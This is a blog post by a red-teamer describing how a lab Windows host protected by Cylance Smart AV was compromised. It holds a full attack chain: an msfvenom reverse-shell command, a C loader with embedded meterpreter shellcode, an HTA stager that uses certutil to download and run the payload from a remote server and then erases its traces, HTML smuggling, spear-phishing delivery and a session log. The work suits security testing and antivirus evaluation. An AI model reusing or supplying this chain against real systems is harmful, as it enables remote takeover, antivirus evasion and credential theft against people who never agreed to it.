

# How I bypassed "next-generation" Cylance Smart AntiVirus in less than 15 minutes

**Reading Time:** _16 minutes_

## Prologue
Hello folks, In this blog-post, I am going to show you guys how I was able to bypass a "next-generation" Antivirus named Cylance Smart AV which supposedly uses neural networks for threat detection compared to traditional detection mechanisms.

Disclosure: This attack would specifically work on the Home edition of CylancePROTECT which is also known as Smart AV and not the Enterprise edition. We'll discuss this later on in this post but for now, fellow readers be forewarned.

Without any further ado, let's begin our analysis of an attack.

## Introduction
So this time I decided to try and run a simulated attack scenario against a host protected by Cylance Smart AV in an attempt to breach it.



For those of you who haven't heard about Cylance, do not be dismayed. Let me fill you in. Cylance(now acquired by BlackBerry Limited) belongs to one of the newer waves of security solutions that add a pinch of Machine Learning to existing detection algorithms. Basically, it employs ML models which are trained with millions of malicious samples to detect the next threat that comes around using behavioural analysis even if it's previously unseen. All of this is done in the hopes of removing too much dependency on signature-based detection models which have to be frequently updated to keep up with the recent threats and even then it can't possibly keep up its pace with zero-day threats and previously unseen or evolved malware samples.

I would recommend checking their page for more intel on their product which you can do [here](https://shop.cylance.com/us/).

These are company claims anyway. But is it effective? How well does it perform in a real-world assessment? Let's subject it to such a test to determine that answer, shall we?

I did run the scenario and guess what? It was way easier than I thought and it didn't take me more than 15 minutes to prepare a lure mail with a payload stager that would download and execute our final stage payload to give us the shell.

Yes, I have tried to keep the scenario as real and practical as possible which initiates from the Weaponization phase of the Cyber Kill Chain(if you don't know what that is [here](https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html) is a link to read up on it).

This is not one of those impractical posts showing the results of a VirusTotal scan against a scratch-coded simple reverse shell to judge whether it'll pass as the payload for an actual red-teaming engagement and if so terming it as a bypass.

Before we begin I want to make it clear that I was neither employed by any company nor paid by an individual to perform these tests. All of this was done on personal interest and curiosity just to confirm whether I could.

## Preparing the test environment
Of course, we would need to set up a test environment to run the scenario. Here are the things you'd need:

1. The latest version of Windows 10 build with all security hotfixes installed - This is going to be our target machine.
1. A Linux box loaded with Metasploit framework - The attacker machine.
1. A copy of Cylance Smart AV with all features enabled - You may get a "trial" version for a month(5 USD).

I'd strongly recommend to set up a Windows VM using VirtualBox/VMWare instead of using your production machine. Since there are plenty of resources available online on how to do so and considering the fact that there's not much to explain here pertaining the main topic, I will leave this step as an exercise for the readers.

Keep in mind, for simplicity's sake we are not using a VPS as the target machine. Therefore, it is your responsibility to set up the environment in such a way that both the machines are on the same local network.

## Phase 2 of Kill Chain - Weaponization
Considering that you've already done your homework on the target(Reconnaissance), we'll move on directly to Phase 2 of the Cyber Kill Chain i.e. creating the backdoor and coupling it with the exploit.
### Creating the Payload
Our first step is to create the payload which will give us the remote access to the target machine via.

This is one of the most crucial parts of the attack as you'd need a payload that doesn't get picked up by Cylance Smart AV on the host. Initially, I experimented with _meterpreter_ exe/dlls but with no success. Before you can even bring your cursor close to the payload, it's gonna light up the Cylance panel showing an alert that a serious threat has been detected and removed successfully. This is well expected of course but I must say that I was kinda impressed with the response time of the AV.

So what do we do?

How about generating a shellcode then? And execute the shellcode via a loader program which we will create later on. 

Let's do that and generate a shellcode C-string via MSFVenom using:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.104 LPORT=8080 -f c
```

Take care to change the `LHOST` to your Linux machine's local IP and `LPORT` if you desire so.

Let's move on to creating the shellcode loader now but before that, you'd need to install  MinGW cross-compiler on the Linux box to compile the following C code to a Windows executable and you can do so via:

```
apt-get install mingw-w64
```

Here is the source for the shellcode loader program:

```c
// Filename: payload.cpp
// Author: Upayan a.k.a. slaeryan
// Purpose: This is a x86 Windows shellcode loader to execute the shellcode
// contained in the char array within the memory space of the local process
// (in-memory shellcode execution).
// Usage: Execute payload.exe
// Compile with:
// i686-w64-mingw32-g++ payload.cpp -o payload.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
// Testing: msfvenom -a x86 —platform windows -p windows/exec cmd=calc.exe -f c


#include <windows.h>

int main() 
{
    // To hide the console window
    HWND stealth;
    AllocConsole();
    stealth = FindWindowA("ConsoleWindowClass", NULL);
    ShowWindow(stealth, SW_HIDE); //SW_SHOWNORMAL = 1 = show, SW_HIDE = 0 = Hide the console
    // Paste your meterpreter/beacon shellcode here
    // msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.104 LPORT=8080 -f c
    unsigned char shellcode[] =
        "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
        "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
        "\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
        "\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
        "\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
        "\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
        "\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
        "\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
        "\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
        "\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
        "\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54"
        "\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x01\x68"
        "\x68\x02\x00\x1f\x90\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
        "\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5"
        "\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
        "\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff"
        "\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00"
        "\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56"
        "\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58"
        "\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5"
        "\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85"
        "\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1"
        "\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5"; // meterpreter shellcode
    // Allocate memory in the process marked as RWX using VirtualAlloc().
    void *exec = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    // Copy the shellcode into the allocated address space.
    memcpy(exec, shellcode, sizeof(shellcode));
    // Execute the written memory.
    ((void (*)())exec)();
    return 0;
}
```

This is a simple C code for in-memory shellcode execution that executes the shellcode which we generated before within the memory space of the local process. It is pretty self-explanatory and the code is commented throughout so that there's no confusion as to what happens in each line. Follow the instructions commented at the top of the source and you should have a `payload.exe` in your current working directory.

The size of the final payload should be around `13 kB` which is not bad.

And congratulations because you have successfully completed the creation of the payload!

Initially, I thought I would have to use some advanced shellcode injection techniques such as Atom Bombing, EarlyBird APC Queue Code Injection, Ghostwriting or some type of shatter-style attacks or at least a very basic CreateRemoteThread Injection to inject the shellcode into a remote process and execute it in an effort to evade Cylance Smart AV but I discovered to my surprise that you don't even need to go that far because this AV is oblivious to memory injection attacks completely ;)

Many of you might be even wondering why am I using a _meterpreter_ payload at all when I could have custom-coded a C2 framework from scratch that would bypass all these defences. Yes, I could have but for one I am not getting paid to write my own advanced C2 framework from scratch which can take quite a bit of time and also why bother with that when you can use a readily available Post-Exploitation framework like Metasploit to get the job done ;)

This attack may also be done with Cobalt Strike and its _beacon_ payload.
### Creating the Payload Stager
Okay, you have created the payload but now what? 

You can't just give an EXE to a target and hope for him/her to double-click on it, right?
Maybe that would have worked five-six decades ago but sure as hell no one's double-clicking on an unsigned, shady, standalone EXE payload without a compelling reason these days.

Well, what about an HTML Application or HTA? 

Quoting _nccgroup_ [link](https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2017/august/smuggling-hta-files-in-internet-exploreredge/),

```hta
A HTA file is usually made up of HTML and script such as JScript or VBScript, much like a normal web page.

However, the difference with HTA files is that they run in full trust mode, with access to features that a normal web page wouldn’t have, such as ActiveX controls usually marked ‘unsafe for scripting’.

This means that if an attacker was to serve a HTA file (for example, via a malicious webpage) and convince the user to click through two warnings, then the attacker could run malicious code on the victim's computer. All without needing an exploit or bypassing any of the latest and greatest mitigations.
```

So HTA files are not subject to the same stringent restrictions as HTML pages. What's more, you can even use embedded JS or VBS code with ActiveX Object support such as `WScript.Shell`. This means you can potentially use an HTA to perform some malicious activity on the executing host machine. Sounds intriguing...

So why don't we create an HTA stager? 

In other words, a HTA which upon being run will download our shellcode loader program from a remote server and execute it which in turn will execute our final _meterpreter_ shellcode. Let's do that!

Keep in mind that HTML Applications are executed using `mshta.exe`.

Here is the HTA source:

```html
<!-- 
Filename: htastager.hta
Author: Upayan a.k.a. slaeryan
Purpose: This is a HTA stager that will download a Base64 payload from a specified URL, decode it back to the original extension and then execute it. Also, it cleans this file and the Base64 payload from disk afterwards.
Usage: Download and run from a browser or with mshta.exe 
-->


<!DOCTYPE html>
<html>
<head>
<HTA:APPLICATION ID="SI"
APPLICATIONNAME="Downloader"
WINDOWSTATE="minimize"
MAXIMIZEBUTTON="no"
MINIMIZEBUTTON="no"
CAPTION="no"
SHOWINTASKBAR="no">

<script>
// Obfuscate contents using: https://obfuscator.io/
// Function to download the payload from the remote server as a Base64 encoded file
function downloadpayload() {
	a = new ActiveXObject('Wscript.Shell');
	cmd = "certutil.exe -urlcache -split -f http://192.168.1.104:8000/payload.b64 payload.b64" // CHANGE ME
	a.Run(cmd, 0);
}
// Function to convert the Base64 encoded file into an executable
function decodepayload() {
	e = new ActiveXObject('Wscript.Shell');
	cmd = "certutil.exe -decode payload.b64 payload.exe"
	e.Run(cmd, 0);
}
// Function to execute the payload
function executepayload() {
	b = new ActiveXObject('Wscript.Shell');
	cmd = "payload.exe"
	b.Run(cmd, 0);
}
// Function to delete the HTA stager, Base64 payload and close the mshta.exe process
function cleanup() {
	c = new ActiveXObject("Scripting.FileSystemObject");
	filename = window.location.href;
	filename = decodeURI(filename);
	filename = filename.slice(8);
	d = c.GetFile(filename);
	d.Delete();
	f = c.GetFile("payload.b64");
	f.Delete();
	window.close();
}
downloadpayload();
// Wait for download to complete
setTimeout(decodepayload, 30000); // 40s - CHANGE THE SECONDS
// Wait for decoding to complete
setTimeout(executepayload, 40000); // 50s - CHANGE THE SECONDS
// Wait for execution to complete
setTimeout(cleanup, 50000); // 60s - CHANGE THE SECONDS
</script>

</head>
<body>
</body>
</html>
```

This is a simple HTML Application that will utilize `certutil.exe` to download our loader binary(Base64 encoded) from a remote URL, decode it back to EXE locally using the same(inspiration from the LOLBAS project) and then execute it on the host.

Change the Timing parameters factoring into account the payload size, connectivity speed etc and also change the download URL(we are self-hosting for this scenario using `python3 -m http.server 8000`). The Timing parameters seem sufficient enough so not much tinkering is required. I'd further recommend using a JS obfuscator like [https://obfuscator.io](https://obfuscator.io) to obfuscate and RC4 encrypt the strings of the in-line JS code.

In case you are wondering, yes this does drop **two** files on disk namely the Base64 encoded loader binary and the PE executable after converting it in the Microsoft Edge `TempState/Downloads` folder considering that you are using the default browser.

This is the reason the script is timed to clean up after itself and delete the Base64 downloaded file and the HTA file from disk and close the `mshta.exe` process after a set time(60 seconds after execution). Note that you can't delete the payload binary on disk as it's a running process but a possible workaround could be to inject the _meterpreter_ code to another suitable, running Windows process once you get the shell and then attempt to delete the original payload binary. That way there shall be no artifacts to recover.

I know what you are thinking, that I could have used a _Powershell_ payload for a file-less attack and avoided dropping to disks altogether. While _Powershell_ happened to be a very powerful tool in the arsenal of red-teamers in the past, it's slowly losing it's potential thanks to the extensive logging employed and various protection mechanisms implemented by Microsoft these days.

Another option, as you might know, is to launch the shellcode via JS/VBS shellcode launcher embedded in HTA eliminating the use of the loader binary. I haven't really experimented with it but you can do so via this wonderful tool: [https://github.com/mdsecactivebreach/CACTUSTORCH](https://github.com/mdsecactivebreach/CACTUSTORCH)

Also, feel free to explore the myriad sea of opportunities using MS Office phishing techniques like _VBA Macros(pretty much dead!), DDE, XLM(Macro 4.0), SYLK(Excel) etc._

Okay so now that we have prepared the HTA, how are we going to serve it to the victim?

I made use of another lovely tool developed by [@Arno0x0x](https://twitter.com/Arno0x0x) called [EmbedInHTML](https://github.com/Arno0x/EmbedInHTML). 

Quoting from his project README, 

```hta
What this tool does is taking a file (any type of file), encrypt it, and embed it into an HTML file as ressource, along with an automatic download routine simulating a user clicking on the embedded ressource.

Then, when the user browses the HTML file, the embedded file is decrypted on the fly, saved in a temporary folder, and the file is then presented to the user as if it was being downloaded from the remote site. Depending on the user's browser and the file type presented, the file can be automatically opened by the browser.
```

If you are feeling creative, this is the time to exploit that by modifying the template for the HTML page shown to the target.

Setting this up was relatively an easy task using:

```
./embedInHTML.py -k mysecretkey -f htastager_obfuscated.hta -m application/hta -o index.html
```

Great! Now all the target needs to do is visit this webpage hosted somewhere and click through a warning to run the HTA and that's all.

## Phase 3 of Kill Chain - Delivery
This is the step where you would host the malicious webpage to serve the HTA stager(created in the previous step) somewhere and send spear-phishing emails to the target with an appropriate target-specific lure with links to the webpage.

For the purposes of this blog-post, I am self-hosting it on my Linux box using:

```
python3 -m http.server 8000
```

Do not forget to start the _Metasploit exploit handler_ as well!

## Profit!!!
Now all the attacker needs to do is wait for the victim to visit the malicious webpage, click on "Run" in the dialogue prompt, click "Run" again through a security warning and wait for the final stage _meterpreter_ payload to be executed.

As soon as that happens, the attacker is granted with a very familiar and rewarding message displaying:

```hta
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8080 
[*] Sending stage (180291 bytes) to 192.168.1.100
[*] Meterpreter session 1 opened (192.168.1.104:8080 -> 192.168.1.100:50483) at 2020-04-22 20:03:35 +0530

meterpreter > 
```

Of course, now that the target machine is compromised they can perform all sorts of malicious activities like for example running the infamous _Mimikatz_ module to get NTLM hashes etc.

This stage is known as the **Post-Exploitation** phase where the attackers perform various actions on the target machine so as to accomplish their initial goal(s).

This may include installing other implants, achieving persistence so that the implant survives a reboot, confidential data exfiltration, keylogging, pivoting etc. among other things.

## A working demo of the bypass
Here is a working demo of the attack in question which is successfully able to bypass Cylance Smart AV:

<figure class="video_container">
  <video width="240" height=auto controls="true" allowfullscreen="true" poster="../assets/images/cylance-smartav-logo.png">
    <source src="../assets/images/cylance-smartav-bypass.mp4" type="video/mp4">
  </video>
</figure>


